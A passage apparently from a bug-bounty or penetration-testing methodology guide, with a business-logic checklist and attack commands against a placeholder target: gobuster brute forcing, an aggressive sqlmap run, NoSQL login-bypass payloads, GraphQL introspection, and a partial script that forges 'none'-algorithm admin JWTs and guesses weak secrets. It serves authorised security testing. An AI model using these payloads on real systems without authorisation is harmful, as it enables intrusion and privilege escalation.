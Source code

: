 ```bash
cat subdomains.txt | subjs | grep -E '/(api|admin|test|dev)' | sort -u

# Advanced directory discovery with custom wordlists
gobuster dir -u https://target.com -w custom_wordlist.txt -x php,asp,aspx,jsp,js,json,xml,txt,bak,old -t 50
```

#### **Phase 2: Advanced Vulnerability Discovery (4 hours)**

**Business Logic Testing Checklist:**
- [ ] Race condition testing on critical functions (payments, transfers, purchases)
- [ ] Price manipulation attacks (negative quantities, currency switching)
- [ ] Workflow bypass attempts (skipping payment, verification steps)
- [ ] Mass assignment vulnerabilities in API endpoints
- [ ] Time-based attacks on authentication mechanisms

**Advanced Injection Testing:**
```bash
# Advanced SQL injection with sqlmap
sqlmap -u "https://target.com/search?q=test" --batch --level 5 --risk 3 --tamper=space2comment,charencode --random-agent

# NoSQL injection testing
# Test MongoDB operators
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}

# GraphQL testing
# Introspection query
echo 'query IntrospectionQuery { __schema { queryType { name fields { name } } } }' | curl -X POST -H "Content-Type: application/json" -d @- https://target.com/graphql

# Advanced XSS testing with context awareness
# Test in different contexts: HTML, attributes, JavaScript, CSS
```

**JWT Security Assessment:**
```python
# Implement JWT testing script
import jwt
import requests

def test_jwt_vulnerabilities(token):
    tests = []
    
    # Test 1: None algorithm
    try:
        payload = jwt.decode(token, options={"verify_signature": False})
        payload['admin'] = True
        none_token = jwt.encode(payload, "", algorithm="none")
        tests.append(('none_algorithm', none_token))
    except:
        pass
    
    # Test 2: Weak secret brute force
    common_secrets = ['secret', '123456', 'password', 'admin', 'key']
    for secret in common_secrets:
        try:
            jwt.decode(token, secret, algorithms=['HS256'])
            tests.append(('weak_secret', secret))
            break
        except:
            continue
    
```